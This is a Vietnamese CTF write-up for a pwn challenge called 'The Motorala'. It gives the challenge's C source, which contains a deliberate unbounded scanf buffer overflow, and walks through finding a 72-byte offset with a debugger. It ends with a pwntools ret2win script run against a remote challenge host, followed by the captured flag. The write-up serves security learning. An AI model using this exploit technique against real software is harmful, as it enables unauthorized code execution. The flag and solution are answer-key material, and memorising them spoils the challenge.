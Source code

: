 # <center>The Motorala</center>
### Source code
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>


char* pin;

// this is the better print, because i'm cool like that ;)
void slow_type(char* msg) {
        int i = 0;
        while (1) {
                if (!msg[i])
                        return;
                putchar(msg[i]);
                usleep(5000);
                i += 1;
        }
}

void view_message() {
        int fd = open("./flag.txt", O_RDONLY);
        char* flag = calloc(0x50, sizeof(char));
        read(fd , flag, 0x50);
        close(fd);
        slow_type("\n\e[1;93mAfter several intense attempts, you successfully breach the phone's defenses.\nUnlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.\nThe once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.\n\e[0m");
        printf("\n%s\n", flag);
        exit(0);
}

void retrieve_pin(){
        FILE* f = fopen("./pin", "r");
        pin = malloc(0x40);
        memset(pin, 0, 0x40);
        fread(pin, 0x30, 0x1, f);
        fclose(f);
}

void login() {
        char attempt[0x30];
        int count = 5;

        for (int i = 0; i < 5; i++) {
                memset(attempt, 0, 0x30);
                printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
                printf("PIN: ");
                scanf("%s", attempt);
                if (!strcmp(attempt, pin)) {
                        view_message();
                }
        }
        slow_type("\n\e[1;33mAfter five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.\e[0m\n\n");
}

void banner() {

        slow_type("\e[1;33mAs you breached the final door to TACYERG's hideout, anticipation surged.\nYet, the room defied expectations – disorder reigned, furniture overturned, documents scattered, and the vault empty.\n'Yet another dead end,' you muttered under your breath.\nAs you sighed and prepared to leave, a glint caught your eye: a cellphone tucked away under unkempt sheets in a corner.\nRecognizing it as potentially the last piece of evidence you have yet to find, you picked it up with a growing sense of anticipation.\n\n\e[0m");

    puts("                         .--.");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("        _.-----------._  |  | ");
        puts("     .-'      __       `-.  | ");
        puts("   .'       .'  `.        `.| ");
        puts("  ;         :    :          ; ");
        puts("  |         `.__.'          | ");
        puts("  |   ___                   | ");
        puts("  |  (_M_) M O T O R A L A  | ");
        puts("  | .---------------------. | ");
        puts("  | |                     | | ");
        puts("  | |      \e[0;91mYOU HAVE\e[0m       | | ");
        puts("  | |  \e[0;91m1 UNREAD MESSAGE.\e[0m  | | ");
        puts("  | |                     | | ");
        puts("  | |   \e[0;91mUNLOCK TO VIEW.\e[0m   | | ");
        puts("  | |                     | | ");
        puts("  | `---------------------' | ");
        puts("  |                         | ");
        puts("  |                __       | ");
        puts("  |  ________  .-~~__~~-.   | ");
        puts("  | |___C___/ /  .'  `.  \\  | ");
        puts("  |  ______  ;   : OK :   ; | ");
        puts("  | |__A___| |  _`.__.'_  | | ");
        puts("  |  _______ ; \\< |  | >/ ; | ");
        puts("  | [_=]                                          \n");

        slow_type("\e[1;94mLocked behind a PIN, you attempt to find a way to break into the cellphone, despite only having 5 tries.\e[0m\n\n");
}


void init() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);
        retrieve_pin();
        printf("\e[2J\e[H");
}

int main() {
        init();
        banner();
        login();
}
```
- Kiểm tra các trạng thái bảo vệ được bật
![image](https://hackmd.io/_uploads/Byo9z6iMC.png)
- Tiếp theo nhìn vào code ta có thể thấy được lỗi nằm ở hàm ```scanf("%s", attempt);``` khi nhận đầu vào không được giới hạn trong khi mảng ```attempt``` được giới hạn ```0x30 byte``` nên dẫn đến lỗi ```Buffer Overflow``` và ```canary``` không được bật nên ta có thể khai thác lỗi này
- Tương tự challenge ```Baby Goods``` ta cũng tìm địa chỉ stack của ```attempt``` và của địa chỉ trả về hàm ```login()``` để tìm ofset, sau đó overwrite địa của hàm ```view_message()```
- Đặt breakpoint tại sau lệnh gọi hàm ```scanf``` và lệnh ```ret```  trong hàm ```login()``` để tìm địa chỉ của chúng trên stack
![image](https://hackmd.io/_uploads/SJJ8VTifC.png)
Địa chỉ ```attempt``` là ```0x00007fffffffdff0``` 
![image](https://hackmd.io/_uploads/SJCWBajzA.png)
Địa chỉ trả về trên stack là ```0x00007fffffffe038```
- Sau đó tìm ofset ```0x00007fffffffe038 - 0x00007fffffffdff0 = 72 byte```
- Tương tự như challenge trước ta viết script và khai thác, nhưng không thể vì đã gặp một lỗi. Theo tìm hiểu thì lỗi này vì ngay địa chỉ thực thi của stack không chia hết cho 16 nên ta cần phải pading cho địa chỉ này một địa chỉ khác và sau đó là địa chỉ trả về của hàm ```view_message()```. Ý tưởng ở đây là thêm vào địa chỉ lệnh ```ret``` của hàm bất kì để sau đó có thể nhày đến địa chỉ hàm ```view_message()```
### Script
```python
from pwn import *

view_message_address =  0x40138e

p = remote('challs.nusgreyhats.org', 30211)
#p = process('./chall')

payload = b'a'*72
payload += p64(0x401564)
payload += p64(view_message_address)

p.sendlineafter('PIN: ',payload)

p.interactive()
```
> #### *grey{g00d_w4rmup_for_p4rt_2_hehe}*
